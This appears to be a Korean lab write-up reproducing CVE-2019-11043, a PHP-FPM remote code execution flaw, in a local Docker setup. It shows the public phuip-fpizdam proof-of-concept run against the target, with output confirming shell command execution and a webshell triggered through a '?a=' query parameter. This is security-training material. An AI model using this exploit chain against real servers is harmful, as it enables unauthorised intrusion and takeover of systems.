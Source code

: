 # PHP-FPM Remote Command Execution (CVE-2019-11043)

작성자: WHS 1기 14반 전성현_6898

2019년 Real World CTF 예선에서 발견된 PHP 원격 코드 실행 0-Day 취약점
- 취약 버전: 7.3.11, 7.2.24 미만 버전

참조:

- https://bugs.php.net/bug.php?id=78599
- https://lab.wallarm.com/php-remote-code-execution-0-day-discovered-in-real-world-ctf-exercise/
- https://github.com/neex/phuip-fpizdam

## 환경 구성

취약한 PHP 서버를 다음과 같은 명령어로 실행:

```
docker compose up -d
```

실행한 서버는 다음과 같은 명령어로 접속 가능 `http://your-ip:8080/index.php`.

### 에러 조치 방법
```
docker.errors.DockerException: Error while fetching server API version: HTTPConnection.request() got an unexpected keyword argument 'chunked'
```
위와 같은 에러로 인해 docker compose up이 불가능하다면 
```
sudo pip3 install --force-reinstall 'requests<2.29.0' 'urllib3<2.0'
```
해당 명령어를 통해 Trouble Shooting 가능

참조:
- https://forum.checkmk.com/t/docker-plugin-not-working-on-ubuntu-20-04/38568
- https://github.com/docker/docker-py/issues/3113 


## 취약점 재현

취약점 재현을 위해 다음과 같은 툴을 사용, <https://github.com/neex/phuip-fpizdam>:
- 파일 실행 시 공격 대상 정보를 인자 값으로 설정해주는 POC 스크립트
- go 언어 설치 필요

```
user@user:~/go/bin$ ./phuip-fpizdam http://your-ip:8080/index.php
2023/10/31 19:43:43 Base status code is 200
2023/10/31 19:43:43 Status code 502 for qsl=1800, adding as a candidate
2023/10/31 19:43:43 The target is probably vulnerable. Possible QSLs: [1790 1795 1800]
2023/10/31 19:43:43 Attack params found: --qsl 1795 --pisos 248 --skip-detect
2023/10/31 19:43:43 Trying to set "session.auto_start=0"...
2023/10/31 19:43:43 Detect() returned attack params: --qsl 1795 --pisos 248 --skip-detect <-- REMEMBER THIS
2023/10/31 19:43:43 Performing attack using php.ini settings...
2023/10/31 19:43:43 Success! Was able to execute a command by appending "?a=/bin/sh+-c+'which+which'&" to URLs
2023/10/31 19:43:43 Trying to cleanup /tmp/a...
2023/10/31 19:43:43 Done!
```


위 과정이 정상적으로 처리되었을 때의 결과 화면:

![](1.png)

웹쉘(webshell)은 PHP-FPM의 백그라운드에 작성되며, RCE(원격 코드 실행)를 트리거하려면 `http://your-ip:8080/index.php?a=id`를 url에 입력:

![](2.png)
